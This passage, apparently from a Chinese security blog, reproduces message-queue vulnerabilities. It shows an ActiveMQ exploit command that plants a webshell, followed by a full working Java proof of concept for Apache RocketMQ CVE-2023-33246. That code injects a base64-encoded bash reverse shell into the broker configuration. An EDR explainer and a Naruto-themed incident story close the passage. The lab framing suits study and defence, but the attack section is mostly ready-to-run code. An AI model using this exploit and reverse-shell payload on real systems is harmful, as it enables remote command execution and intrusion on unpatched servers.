python poc.py -u admin -p admin --exploit jfr http://localhost:8161
```

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240221154203095.png)

Webshell 被写入在`/admin/shelljfr.jsp`文件中：

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240221154146590.png)

# Apache RocketMQ

[https://rocketmq.apache.org/](https://rocketmq.apache.org/)

RocketMQ 由阿里巴巴开源并贡献给 Apache，是一款分布式、高性能、高可用、高可靠的消息队列产品。

在其 5.1.0 版本及以前存在一处命令执行漏洞，攻击者通过向其更新配置相关的功能发送指令即可更新任意配置项，并通过配置项中存在的命令注入功能执行任意命令。

RocketMQ 的默认端口是 10911

## CVE-2023-33246

先用 docker-compose 把漏洞环境架起来

```plain
version: '2'
services:
 rocketmq:
   image: vulhub/rocketmq:5.1.0
   ports:
     - 10911:10911
```

用 IDEA 新建一个 Maven 项目，引入 rocketmq-tools 依赖

```plain
<dependencies>
    <!-- https://mvnrepository.com/artifact/org.apache.rocketmq/rocketmq-tools -->
    <dependency>
      <groupId>org.apache.rocketmq</groupId>
      <artifactId>rocketmq-tools</artifactId>
      <version>5.1.0</version>
    </dependency>
  </dependencies>
```

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240221185603816.png)

新建一个 Java 类 把 Poc 放进去

```plain
import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;
import java.util.Base64;
import java.util.Properties;
public class Main {
    private static String getCmd(String ip, String port) {
        String cmd = "bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1";
        String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());
        return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";
    }
    public static void main(String[] args) throws Exception {
        String targetHost = "192.168.0.106";
        String targetPort = "10911";
        String shellHost = "192.168.0.106";
        String shellPort = "12345";
        String targetAddr = String.format("%s:%s",targetHost,targetPort);
        Properties props = new Properties();
        props.setProperty("rocketmqHome", getCmd(shellHost,shellPort));
        props.setProperty("filterServerNums", "1");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:12345");
        admin.start();
        admin.updateBrokerConfig(targetAddr, props);
        Properties brokerConfig = admin.getBrokerConfig(targetAddr);
        System.out.println(brokerConfig.getProperty("rocketmqHome"));
        System.out.println(brokerConfig.getProperty("filterServerNums"));
        admin.shutdown();
    }
}
```

打过去等 30 秒

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240221190234924.png)

进入容器查看/tmp 目录 success 文件已写入

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240221190305014.png)

# RabbitMQ

这玩意真没什么好复现的洞..

# 一个故事

## Endpoint Detection &Response

EDR 的全称是终端检测与响应 (Endpoint Detection &Response),它是在终端节点上检测已知、未知的威胁，需兼顾预防、防护、检测、响应、运营等多重需求，在智能化、情报分析等新技术加持下，提高威胁鉴别能力和响应速度的技术和设备的统称。

EDR 部署通常采用三层架构

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240221194028493.png)

客户端这一层，每个终端都需要安装一个`edragent`，安装好后就会上线 EDR，EDR 对上线的终端有完全操控权限

`edragent`会收集用户登录、进程运行/创建、目录/文件访问等日志上报 EDR 管理平台进行分析

在这个网络架构下，EDR 能否及时的收集到日志就有很多影响因素

-   网络速率：如果局域网的网络速率低，会直接影响到日志上报的速度

EDR 管理平台一般支持软件部署，如果服务器的性能与终端数量不匹配，会导致服务器 CPU、内存跑满

-   服务器性能：如果性能与终端数量不匹配，CPU、内存负载高会直接影响日志分析速度

再就是消息队列性能不足可能造成的影响了，在某年的大型活动中就出现过一次虚惊一场的乌龙事件：

「火影元年」

**巳时**

​ 卡卡西指示暗部成员使用写轮眼对木叶忍者村进行全面扫描。漩涡鸣人受命执行测试，使用影分身之术同时对村内所有服务器进行探测。在扫描过程中，鸣人发现一处 redis 未授权访问漏洞，并利用多重影分身之术快速写入计划任务，模拟攻击。

**午时**

​ 鹰眼由于知情，未查看 EDR 日志

**申时**

​ 鹰眼收到消息，报告发生了恶意计划任务写入事件。木叶高层震动，立即召开紧急会议。

**亥时**

​ 军师冷静分析，判断攻击源来自内部。通过追踪，发现攻击源地址指向漩涡鸣人。鸣人百思不得其解，坚称自己没有发动攻击。

**戌时**

​ 鹰眼凭借多年经验，将问题定位到 EDR 性能上。由于木叶忍者村规模庞大，导致消息队列处理速度过慢，造成事件延报。

**事件总结**

​ 此次事件暴露了木叶忍者村安全体系的漏洞，也体现了应急响应机制的不足。为避免类似事件再次发生，木叶高层决定采取以下措施：

​ 加强对 EDR 系统的性能优化，提升消息队列处理速度。

**卡卡西的教导**

​ 卡卡西告诉鸣人，网络安全是一项永无止境的修炼。只有不断学习和提高，才能抵御各种安全威胁。他鼓励鸣人继续努力，成为一名优秀的网络安全忍者。

**然而，这只是开始。新的威胁正在暗处悄然生长，木叶忍者村的未来将何去何从......**
